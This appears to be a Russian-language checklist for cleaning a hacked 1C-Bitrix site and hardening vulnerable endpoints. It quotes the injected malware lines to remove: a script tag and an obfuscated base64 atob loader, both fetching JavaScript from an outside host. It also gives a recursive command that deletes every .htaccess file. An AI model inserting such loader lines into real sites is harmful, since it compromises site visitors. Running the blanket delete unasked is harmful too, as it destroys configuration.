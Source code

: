 
Внимание! Для большинства файлов изменяются права доступа на 444

1. Проверяем сервер на наличие лишних процессов, убиваем вредоносные (они генерируют вредоносный код). Команда — ps aux | grep php + команда — htop
2. Удаляем лишний код
	2.1 В корне сайта в index.php сверху вставляется вредоносный код - удаляем.
	2.2 В прологе, эпилоге на верху и внизу файла может создаваться вредоносный код. — удаляем
	2.3 В папке /bitrix/admin/, /bitrix/tools/ и корне могут создаваться вирусные файлы по типу 8528de6012eb.php — удаляем.
	2.4 В корне сайта могут создаватся три папки для WP структуры с префиксом “wp-....” их удаляем.
	2.5 В корне сайта может создаваться admin.php, его тоже удаляем.
	2.6 По мимо всего в корне сайта также могут быть сгенерированы и созданы файлы и папки не относящиеся к сайту, их чистим.
	2.7 Проверить /bitrix/modules/main/bx_root.php на наличие вредоносного кода (ФАЙЛИК ПРИКРЕПЛЕН).
	2.8 Желательно проверить header/footer на наличие "абракадабры".
	2.9 Проверить файлы в /ajax/ на вредоносный код.
	2.10 Удалить файл если имеется — bitrix/tools/spread.php
3. Проверяем htaccess в корне на "зараженность" и наличие лишних htaccess в разделах. Если в разделах есть лишние файлы:
	3.1 Удаляем все .htaccess. Команда для linux: 
	```
	find ./ -name ".htaccess" -delete
	3.2 Копируем все нужные .htaccess. файлы в папке.
	3.3 Восстанавливаем главный  .htaccess, если он был настроен.
4. Если к примеру при удалении файла, он появляется снова можно переименовать папку в которой лежит файл и протестить (идёт атака из вне сайта или процесс внутри битрикса).
5. Могут подтягиваться скрипты со сторонних сайтов (обычно вредоносный код лежит внизу файла):
	5.1 \bitrix\modules\main\include\prolog.php — удаляем строку вида "echo "<script src='https://webcstore.pw/jqueryui.js'></script>";"
	5.2 \bitrix\js\main\core\core.js — удаляем строку вида "s=document.createElement(`script`);s.src=atob(`aHR0cHM6Ly93ZWJjc3RvcmUucHcvanF1ZXJ5dWkuanM=`);document.head.appendChild(s);"
6. \bitrix\components\bitrix\main.file.input\main.php — странный файл (не на всех ядрах есть, предположительно только на взломанных) — Просто проверить наличие
========================================================================================
ЕСЛИ ОБНОВИТЬ БИТРИКС НЕВОЗМОЖНО:
* Часть функционала в админке может быть недоступна
* Дополнительные методы защиты в pdf


Вставляем код:
--------------------------------------------------------
<?if ($_SERVER['REQUEST_METHOD'] === 'POST') {
	header("Status: 404 Not Found");
	die();
};?>
--------------------------------------------------------
	В файлы, перед required:
		1. /bitrix/tools/upload.php
		2. /bitrix/tools/mail_entry.php
		3. /bitrix/modules/main/include/virtual_file_system.php
		4. /bitrix/components/bitrix/sender.mail.editor/ajax.php
		5. /bitrix/tools/vote/uf.php
		6. /bitrix/tools/html_editor_action.php
		7. /bitrix/admin/site_checker.php

========================================================================================
доп уязвимости:	
https://docs.google.com/document/d/1JEIF1rd84GhqkwNl1DOGFdlojTrYk_E6k-pozJ-GU6g/edit